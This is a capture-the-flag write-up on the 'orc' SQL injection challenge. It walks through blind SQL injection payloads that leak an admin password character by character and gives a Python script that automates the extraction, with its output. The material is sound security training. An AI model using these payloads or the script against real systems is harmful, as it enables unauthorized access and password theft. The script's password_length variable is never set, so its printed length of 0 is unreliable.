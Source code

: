 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3fb3ba7d-5c3a-40cc-8b3a-8dcd16ebe014)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. For that we have to perform a Blind SQL Injection.

### Blind SQL Injection

First we have to reveal the length of the flag.

If we provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1

## Commented part:
'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/d0e5928c-c2a2-4355-a6a2-af11d1804556)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=8 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8

## Commented part:
'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/9e438378-10e1-4f7a-9353-bdf75700825d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/e332b358-2371-4f97-a9be-e1e5afce6f68)

If we provide the following URI:

```
?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)='0'

## Commented part:
'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/d479be75-0818-47a3-8d89-991e9dcd1926)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the first character of the `pw` for `id=admin` is `0`.

We can now move onto the second character:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='0'

## Commented part:
'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/557a333a-920a-485b-926b-e87bfbf8b8f4)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='9' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='9'

## Commented part:
'
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/e9d938ad-34aa-4f07-8e9b-167b5d1ec34d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the second character of the `pw` for `id=admin` is `9`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
095a9852
```

Now, we can provide password URI:

```
?pw=095a9852
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

## Script

We can automate the entire process using a script.

```py title="orc_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jeae4igtrh2cq92r63ob4kqmqr'}
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"

password_length = 0

for x in range(0, 10):
  payload = f"' OR id='admin' AND length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    pw_length = x
    break

print()    
print(f"Payload: ?pw={payload}")
print(f"Password length: {password_length}")
print()

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, pw_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print(f"Payload: ?pw={payload}")
      print(f"Character at index {index}: {char}")
      break

print()
print(f"Extracted Password: {password}")
print(f"Final payload: ?pw={password}")
```

```
$ python .\orc_script.py

Payload: ?pw=' OR id='admin' AND length(pw)=8 -- -
Password length: 0

Payload: ?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
Character at index 1: 0
Payload: ?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
Character at index 2: 9
Payload: ?pw=' OR id='admin' AND substr(pw, 3, 1)='5' -- -
Character at index 3: 5
Payload: ?pw=' OR id='admin' AND substr(pw, 4, 1)='a' -- -
Character at index 4: a
Payload: ?pw=' OR id='admin' AND substr(pw, 5, 1)='9' -- -
Character at index 5: 9
Payload: ?pw=' OR id='admin' AND substr(pw, 6, 1)='8' -- -
Character at index 6: 8
Payload: ?pw=' OR id='admin' AND substr(pw, 7, 1)='5' -- -
Character at index 7: 5
Payload: ?pw=' OR id='admin' AND substr(pw, 8, 1)='2' -- -
Character at index 8: 2

Extracted Password: 095a9852
Final payload: ?pw=095a9852
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/ef9ae213-af29-4450-8d2e-34d02565e928)
